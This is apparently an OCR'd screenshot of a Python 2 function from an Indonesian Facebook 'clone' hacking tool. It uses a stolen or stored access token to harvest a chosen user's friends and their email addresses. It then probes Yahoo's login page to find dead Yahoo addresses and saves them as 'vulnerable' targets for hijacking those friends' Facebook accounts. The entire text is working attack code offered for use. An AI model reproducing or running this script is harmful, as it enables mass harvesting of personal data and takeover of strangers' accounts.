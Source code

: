 def clone_dari_teman():
 global toket
 os.system('clear')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 print"\033[1;96m[!] \x1b[1;91mToken invalid"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 try:
 os.mkdir('out')
 except OSError:
 pass
 os.system('clear')
 print logo
 mpsh = []
 jml = 0
 print 42*"\033[1;96m="
 idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m")
 try:
 jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
 op = json.loads(jok.text)
 print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama\033[1;91m :\033[1;97m "+op["name"]
 except KeyError:
 print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan"
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 menu()
 jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...')
 teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)
 kimak = json.loads(teman.text)
 save = open('out/TemanMailVuln.txt','w')
 jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
 print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
 print 43*"\033[1;96m="
 for w in kimak['data']:
 jml +=1
 mpsh.append(jml)
 id = w['id']
 nama = w['name']
 links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
 z = json.loads(links.text)
 try:
 mail = z['email']
 yahoo = re.compile(r'@.*')
 otw = yahoo.search(mail).group()
 if 'yahoo.com' in otw:
 br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
 br._factory.is_html = True
 br.select_form(nr=0)
 br["username"] = mail
 klik = br.submit().read()
 jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
 try:
 pek = jok.search(klik).group()
 except:
 continue
 if '"messages.ERROR_INVALID_USERNAME">' in pek:
 save.write("Nama: "+ nama +"ID :" + id +"Email: "+ mail + '\n')
 print("\033[1;96m[\033[1;92mVULN✓\033[1;96m] \033[1;92m" +mail+" \033[1;96m=>\x1b[1;97m"+nama)
 berhasil.append(mail)
 except KeyError:
 pass